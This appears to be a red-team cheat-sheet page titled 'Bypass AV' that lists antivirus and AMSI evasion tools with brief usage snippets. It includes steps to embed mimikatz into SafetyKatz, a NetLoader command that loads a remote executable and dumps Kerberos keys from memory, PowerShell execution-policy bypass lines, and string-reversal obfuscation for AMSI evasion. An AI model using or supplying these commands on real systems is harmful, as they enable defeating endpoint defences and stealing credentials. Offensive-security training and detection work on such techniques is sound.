 ```yaml
---
layout: app
title: "Bypass AV"
tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader","obfuscate"]

---
```


# Nimcrypt2

[https://github.com/icyguider/Nimcrypt2](https://github.com/icyguider/Nimcrypt2)

# ProtectMyTooling

https://github.com/mgeeky/ProtectMyTooling

# CsWhispers

[https://github.com/rasta-mouse/CsWhispers](https://github.com/rasta-mouse/CsWhispers)

# chimera

[https://github.com/tokyoneon/chimera](https://github.com/tokyoneon/chimera)

# DefenderCheck

DefenderCheck It's to be used to detect all bytecode that could be detected by AV.
              
[https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)

[Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

# AV Bypass

## BetterSafetyKatz
1. Download the latest releafe of mimikatz_trunk.zip
2. Convert file to base64


```powershell
$filename = "c:\temp\mimikatz_trunk.zip"
[Convert]::TOBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value

## Netloader

[https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)
[https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)

### Example

```powershell
Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
```

## Invisi-Shell

Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
[https://github.com/OmerYa/Invisi-Shell](Invisi-Shell)

## AMSITrigger

To Scan custom script to avoid signature
https://github.com/RythmStick/AMSITrigger

## Invoke-Obfuscation

To Obfuscate the AMSI bypass
[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Native

```powershell
powershell -ExecutionPolicy Bypass
powershell -c cmd
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Obfuscate Runtime Instructions

```powershell
$String="niamoDppA.metsyS"
$classrev = ([regex::Matches($String,'.','RightToLeft')]) | ForEach {$_.value} - join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null, @())

```
